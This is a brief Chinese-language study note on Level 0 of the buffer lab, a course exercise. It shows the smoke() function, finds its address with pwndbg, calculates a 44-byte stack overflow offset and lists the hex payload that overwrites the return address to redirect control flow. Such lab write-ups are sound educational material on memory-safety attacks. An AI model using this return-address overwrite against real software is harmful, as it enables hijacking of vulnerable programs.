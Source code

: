 #buffer lab学习笔记

这个lab的任务和attach_lab一样，也是要求通过栈溢出控制程序流程完成相应任务
## Level 0: Candle (10 pts)
令test函数调用完getbuf函数后执行smoke函数
smoke函数源代码
```
void smoke()
{
printf("Smoke!: You called smoke()\n");
validate(0);
exit(0);
}
```
使用gdb查看smoke函数的地址
```
pwndbg> p smoke
$1 = {<text variable, no debug info>} 0x8048c18 <smoke>
```
然后计算栈溢出偏移是44，能覆盖到eip
构建如下格式的十六进制字符完成题目要求
```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
18 8c 04 08
```
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image5.png)
